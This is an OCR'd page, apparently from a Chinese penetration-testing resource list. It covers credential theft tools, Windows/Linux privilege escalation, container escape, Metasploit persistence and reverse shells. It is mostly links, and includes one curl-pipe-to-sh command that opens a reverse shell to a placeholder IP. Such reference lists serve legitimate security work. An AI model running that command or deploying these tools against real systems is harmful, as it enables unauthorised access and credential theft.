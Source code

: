 ### 4.3 权限获取&提升

#### 4.3.1 Win

**权限获取：**

> 离线|在线|破解

-   Windows 认证凭证获取
-   **\[Tool\]** mimikatz Windows认证凭证提取神器
-   **\[Tool\]** go-secdump 利用smb远程无文件落地获取@jfjallid

**提权:**

-   Windows提权检测工具 Windows Exploit Suggester

> 已经停止更新到CVE-2018

-   Windows提权漏洞集合@SecWiki
-   PetitPotato for Win10
-   CVE-2022-24481

#### 4.3.2 Linux

**权限获取：**

-   Linux 认证凭证获取

**提权:**

-   Linux 提权检测脚本 lse.sh
-   Linux setuid提权

> 已经停止更新到CVE-2018

-   Linux提权漏洞集合@SecWiki

#### 4.3.3 Docker&Sandbox逃逸

-   Dokcer容器逃逸@duowen1

### 4.4 权限维持&后门

#### 4.4.1 通用

> backdoor生成，meterpreter操作指令

-   Meterpreter of Metasploit 使用教程

#### 4.4.2 Shell会话

-   反弹/正向 Shell & 升级交互式Shell (Linux&Win)

> curl https://reverse-shell.sh/192.168.0.69:1337 | sh

-   **\[Tool\]** reverse-shell

#### 4.4.2 Webshell

